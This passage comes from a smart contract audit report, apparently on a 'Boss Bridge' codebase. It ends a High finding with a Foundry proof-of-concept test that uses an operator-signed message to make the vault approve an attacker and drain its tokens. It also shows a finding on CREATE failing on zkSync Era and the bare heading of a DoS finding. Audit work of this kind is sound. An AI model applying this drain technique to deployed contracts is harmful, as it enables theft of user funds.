 It's worth noting that this attack's likelihood depends on the level of sophistication of the off-chain validations implemented by the operators that approve and sign withdrawals. However, we're rating it as a High severity issue because, according to the available documentation, the only validation made by off-chain services is that "the account submitting the withdrawal has first originated a successful deposit in the L1 part of the bridge". As the next PoC shows, such validation is not enough to prevent the attack.

To reproduce, include the following test in the `L1BossBridge.t.sol` file:

```javascript
function testCanCallVaultApproveFromBridgeAndDrainVault() public {
    uint256 vaultInitialBalance = 1000e18;
    deal(address(token), address(vault), vaultInitialBalance);

    // An attacker deposits tokens to L2. We do this under the assumption that the
    // bridge operator needs to see a valid deposit tx to then allow us to request a withdrawal.
    vm.startPrank(attacker);
    vm.expectEmit(address(tokenBridge));
    emit Deposit(address(attacker), address(0), 0);
    tokenBridge.depositTokensToL2(attacker, address(0), 0);

    // Under the assumption that the bridge operator doesn't validate bytes being signed
    bytes memory message = abi.encode(
        address(vault), // target
        0, // value
        abi.encodeCall(L1Vault.approveTo, (address(attacker), type(uint256).max)) // data
    );
    (uint8 v, bytes32 r, bytes32 s) = _signMessage(message, operator.key);

    tokenBridge.sendToL1(v, r, s, message);
    assertEq(token.allowance(address(vault), attacker), type(uint256).max);
    token.transferFrom(address(vault), attacker, token.balanceOf(address(vault)));
}
```

Consider disallowing attacker-controlled external calls to sensitive components of the bridge, such as the `L1Vault` contract.


### [H-5] `CREATE` opcode does not work on zksync era

```js
    function deployToken(string memory symbol, bytes memory contractBytecode) public onlyOwner returns (address addr) {
        assembly {
@>          addr := create(0, add(contractBytecode, 0x20), mload(contractBytecode))
        }
        s_tokenToAddress[symbol] = addr;
        emit TokenDeployed(symbol, addr);
    }
```

### [H-6] `L1BossBridge::depositTokensToL2`'s `DEPOSIT_LIMIT` check allows contract to be DoS'd
